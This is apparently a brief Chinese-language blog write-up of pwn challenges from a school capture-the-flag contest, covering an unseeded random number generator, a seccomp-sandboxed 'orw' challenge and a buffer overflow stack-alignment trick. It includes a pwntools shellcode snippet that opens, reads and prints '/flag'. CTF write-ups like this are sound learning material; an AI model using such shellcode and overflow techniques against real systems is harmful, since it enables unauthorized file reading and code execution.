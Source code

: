 # 校赛Pwn复盘


# random

伪随机数，这个没用种子的话输出是一样的

# orw

本质是读取一段shellcode后直接执行，问题在于有沙箱机制（看题解知道是seccomp机制）

这里要知道的是orw的固定shellcode

```python
shellcode=asm(shellcraft.amd64.open('/flag'))# 打开一个名为'/flag'的文件
shellcode+=asm(shellcraft.amd64.read('rax'，'rsp'，0x40))# 读取该文件的内容
shellcode+=asm(shellcraft.amd64.write(1，'rsp'，0x40))# 将内容写入到标准输出（即屏幕）
```

这里实际上是将flag的内容直接读入栈顶，挺好理解的，这种写法的话可以不用记shellcode

# bof

关于栈对齐的问题：可以直接加`ret`或者返回到`call _system`，都可以保持栈平衡

待续


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/10/%E6%A0%A1%E8%B5%9Bpwn%E5%A4%8D%E7%9B%98/  

